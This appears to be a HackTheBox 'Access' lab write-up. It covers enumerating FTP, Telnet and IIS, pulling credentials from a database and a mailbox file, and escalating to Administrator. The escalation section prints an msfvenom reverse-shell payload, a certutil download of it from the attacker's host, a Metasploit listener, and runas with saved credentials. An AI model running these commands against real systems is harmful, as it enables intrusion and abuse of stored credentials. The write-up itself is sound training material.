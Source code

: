 # **Access - HackTheBox Lab**

**Date:** 2024-12-08  
**Target:** `10.10.10.98`  

---

## **Scope**

The goal is to enumerate the target, identify vulnerabilities, gain access, and escalate privileges.

---

## **Gaining Access**

### **Ports Enumeration**

1. **Initial Full Port Scan**  
   I ran a full TCP port scan to identify all open ports:
   ```bash
   nmap -A -p- -iL target -v
   ```
   Results revealed three open ports:  
   - **Port 21:** FTP (Microsoft ftpd)  
   - **Port 23:** Telnet  
   - **Port 80:** HTTP (Microsoft IIS httpd 7.5)

2. **Targeted Port Scan**  
   To gather detailed information, I performed an aggressive scan against the identified ports:
   ```bash
   nmap -A -p21,23,80 -iL target -v -oN target_ports.txt
   ```
   Key findings included:  
   - FTP allows **anonymous login** but restricts directory listing.
   - HTTP server runs **Microsoft IIS 7.5**, hosting a simple web page.
   - Telnet prompts for login credentials.

---

### **HTTP Enumeration**

1. **Web Server Overview**  
   The HTTP server displayed a static page with the title "MegaCorp." Server headers identified it as **Microsoft IIS 7.5** running ASP.NET.

2. **Search for Vulnerabilities**  
   Using `searchsploit`, I looked for potential exploits:
   ```bash
   searchsploit iis 7.5
   ```
   No critical vulnerabilities directly applicable to the setup were identified.

3. **Directory Brute-Forcing with `ffuf`**  
   A brute-force directory scan using `ffuf` yielded no additional paths.

4. **Nikto Scan**  
   A `nikto` scan highlighted several informational findings, including:
   - Missing `X-Frame-Options` and `X-Content-Type-Options` headers.
   - Supported HTTP methods: `OPTIONS, TRACE, GET, HEAD, POST`.

---

### **Telnet Enumeration**

1. **Login Prompt**  
   Attempting to connect:
   ```bash
   telnet 10.10.10.98 23
   ```
   This revealed a **Microsoft Telnet Service** requiring credentials.

2. **Nmap Telnet Script Scan**  
   Using Nmap scripts for Telnet:
   ```bash
   nmap -n -sV -Pn --script "*telnet* and safe" -p 23 $(cat target)
   ```
   The scan revealed additional information:
   - **Host Name:** ACCESS

---

### **FTP Enumeration**

1. **Access FTP Server**  
   Anonymous login was enabled:
   ```bash
   ftp -a 10.10.10.98
   ```
   Inside the FTP server, I discovered two files:  
   - `backup.mdb` (Microsoft Access Database)  
   - `Access Control.zip` (Password-protected ZIP file)

2. **Download Files**  
   To download the files:
   ```bash
   bin
   get backup.mdb
   get "Access Control.zip"
   ```

   ![image](https://github.com/user-attachments/assets/95c46133-1ab3-4af9-b701-65e5696af23f)

3. **Analyze Database File**  
   Using `mdb-tools`, I extracted tables from the `.mdb` file:
   ```bash
   mdb-tables backup.mdb | sed 's/ /\n/g' > tables
   ```
   The `auth_user` table contained credentials, which I exported:
   ```bash
   mdb-export backup.mdb auth_user > auth_user.csv
   ```
   
   ![image](https://github.com/user-attachments/assets/b49f3d06-3df1-4b63-900d-96555d817181)

4. **Decrypt ZIP File**  
   One password from the `auth_user` table successfully decrypted `Access Control.zip`:
   ```bash
   7z x "Access Control.zip"
   ```
   This extracted a `.pst` file (Microsoft Outlook Data File).

5. **Converted pst file to mbox**
   To convert a pst file to mbox I ran:
   ```bash
   readpst "Access Control.pst"
   ```
6. **Gain Access**
   Reading the mbox file I found the user credential.
   I used telnet to test them and I gain access on the target machine, obtaining the user flag.

---

## **Privilege Escalation**

1. **System Information**  
   Running `systeminfo`:
   ```cmd
   systeminfo
   ```
   Identified:
   - **OS:** Windows Server 2008 R2 Standard  
   - **Hotfixes:** Multiple missing patches (potential vulnerabilities).  

2. **Exploit Preparation**  
   I notice Administrative credential saved on the target machine by running:
   ```cmd
   cmdkey /list
   ```
   
   ![image](https://github.com/user-attachments/assets/952e395b-1361-4ff0-a317-59b06b60500a)

   I prepared a reverse shell payload using `msfvenom`:
   ```bash
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.16.9 LPORT=2323 -f exe > p.exe
   ```

3. **File Transfer**  
   Using `certutil`, I transferred the payload to the victim machine:
   ```cmd
   cd %TEMP%
   certutil -urlcache -f "http://10.10.16.9:9878/p.exe" p.exe
   ```

4. **Open Listener**  
   On my local machine, I started a listener with `msfconsole`:
   ```bash
   msfconsole
   use exploit/multi/handler
   set PAYLOAD windows/meterpreter/reverse_tcp
   set LHOST 10.10.16.9
   set LPORT 2323
   run
   ```
5. **Execute Payload**  
   I used stored credentials to run the payload with administrative privileges:
   ```cmd
   runas /savecred /user:ACCESS\Administrator p.exe
   ```
   I got the shell and the root flag.

---

## **Resources**

- [Kali - MDB Tools](https://www.kali.org/tools/mdbtools/)  
- [Kali - libpst](https://www.kali.org/tools/libpst/)  
- [Windows Privilege Escalation Notes](https://github.com/nickvourd/Windows-Local-Privilege-Escalation-Cookbook/blob/master/Notes/StoredCredentialsRunas.md)

---
